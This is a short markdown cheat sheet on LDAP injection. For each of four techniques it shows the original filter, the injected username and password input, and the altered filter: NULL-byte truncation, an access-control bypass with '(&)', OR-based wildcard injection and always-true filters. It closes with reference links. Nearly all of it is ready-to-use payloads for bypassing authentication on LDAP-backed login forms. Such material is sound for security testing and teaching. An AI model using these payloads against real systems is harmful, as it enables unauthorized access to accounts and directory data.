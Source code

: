 # LDAP

> LDAP is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol (IP) network

# LDAP Injection

## NULL Byte

```
(&(username=hermes)(password=pass))     # before
username=*))%00&password=pass           # injection
(&(username=*))%00)(password=pass))     # after
```

## Basic Access Control Bypass

Here, `(&)` is the only filter passed to LDAP
```
(&(username=hermes)(password=pass))     # before
username=hermes)(&))&password=pass      # injection
(&(username=hermes)(&))(password=pass)  # after
```

## OR `|`

```
(&(username=hermes)(password=pass))             # before
username=*)(|(userPassword=*&password=pass)     # injection
(&(username=*)(|(password=*)(password=pass)))   # after
```

## Always True

```
(&(username=hermes)(password=pass)) 
username=*)(&&password=*)(&
(&(username=*)(&)(password=*)(&))
```

# References

- [Wiki](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol)

- [LDAP Injection & Blind LDAP Injection In Web Applications](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/LDAP%20Injection%20and%20Blind%20LDAP%20Injection.pdf)
